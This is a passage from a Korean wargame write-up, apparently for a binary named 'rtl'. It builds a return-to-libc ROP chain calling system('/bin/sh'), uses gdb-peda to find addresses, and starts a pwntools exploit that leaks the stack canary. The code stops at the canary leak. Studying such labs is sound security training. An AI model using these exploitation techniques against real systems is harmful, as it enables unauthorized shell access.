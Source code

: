 ```bash
pop rdi; ret  주소	<= ret
"/bin/sh"     주소	<= ret + 0x8
system@plt    주소	<= ret + 0x10
```

다음과 같이 가젯을 구성하고 실행하면 `system("/bin/sh")`를 실행할 수 있습니다.

하지만 `system` 함수는 `rip`가 이동할 때, 스택이 16 단위로 정렬되어 있지 않으면 Segmentation Fault를 발생시키기 때문에, `system` 함수 전에 아무 의미 없는 가젯(no-op gadget)을 넣어줘야 합니다.

<br>

```bash
ret           주소	<= ret
pop rdi; ret  주소	<= ret + 0x8
"/bin/sh"     주소	<= ret + 0x10
system@plt    주소	<= ret + 0x18
```

그래서 위에 처럼 `ret` 가젯을 추가해서 가젯을 구성해줘야 합니다.

<br>

```bash
gdb-peda$ find "/bin/sh"
Searching for '/bin/sh' in: None ranges
Found 3 results, display max 3 items:
 rtl : 0x400874 --> 0x68732f6e69622f ('/bin/sh')
 rtl : 0x600874 --> 0x68732f6e69622f ('/bin/sh')
libc : 0x7ffff7b95d88 --> 0x68732f6e69622f ('/bin/sh')
```

`"/bin/sh" : 0x400874`

<br>

```bash
gdb-peda$ plt
Breakpoint 2 at 0x4005c0 (__stack_chk_fail@plt)
Breakpoint 3 at 0x4005e0 (printf@plt)
Breakpoint 4 at 0x4005b0 (puts@plt)
Breakpoint 5 at 0x4005f0 (read@plt)
Breakpoint 6 at 0x400600 (setvbuf@plt)
Breakpoint 7 at 0x4005d0 (system@plt)
```

`system@plt : 0x4005d0`

<br>

익스플로잇 코드를 완성해보면

```python
from pwn import *

p = process("./rtl")
e = ELF("./rtl")

#context.log_level = 'debug'

def slog(name, addr):
    return success(": ".join([name, hex(addr)]))


# [1] Leak canary
buf = b'A'*57
p.sendafter("Buf: ", buf)
p.recvuntil(buf)
canary = u64(b'\x00' + p.recvn(7))
slog("canary", canary)

```